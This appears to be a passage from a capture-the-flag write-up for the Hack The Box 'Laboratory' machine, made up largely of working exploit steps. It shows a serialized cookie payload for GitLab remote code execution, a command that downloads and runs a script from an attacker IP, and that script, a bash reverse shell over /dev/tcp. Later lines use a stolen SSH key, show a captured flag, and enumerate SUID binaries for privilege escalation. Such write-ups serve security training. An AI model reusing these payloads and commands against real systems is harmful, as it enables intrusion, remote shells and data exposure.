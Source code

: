 
We then use `curl` to send our request and got a hit on our web server.

    :::text
    curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGB3Z2V0IGh0dHA6Ly8xMC4xMC4xNC41MTo4MDAwL3Awd25gICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--e58cf8e3ef8e1b016de9b83cac7627d48ec17c45"

We then change our payload to download a "reverse shell" and execute it:
`curl http://10.10.14.51:8000/rev.sh -o /tmp/rev.sh && chmod 777 rev.sh && bash /tmp/rev.sh`

The content of rev.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.51/4242 0>&1

Our netcat listener quickly catch a reverse shell as git.

https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html
https://docs.gitlab.com/ee/development/permissions.html

gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
Switch to inspect mode.
Project.update_all(visibility_level: 20)


https://git.laboratory.htb/dexter/securedocker/-/blob/master/dexter/.ssh/id_rsa

$ ssh 10.129.60.56 -i id_rsa -ldexter
dexter@laboratory:~$ id
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
dexter@laboratory:~$ cat user.txt 
a153ecab9310723fa79e5dc37487ef68


dexter@laboratory:/tmp/.plop$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep -v snap
-rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
-rwsr-xr-x 1 root root 166056 Jul 15 00:17 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67816 Apr  2  2020 /usr/bin/su
-rwsr-xr-x 1 root root 88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 39144 Apr  2  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 Apr  2  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51344 Jun 11 18:22 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 May 29  2020 /usr/lib/openssh/ssh-keysign
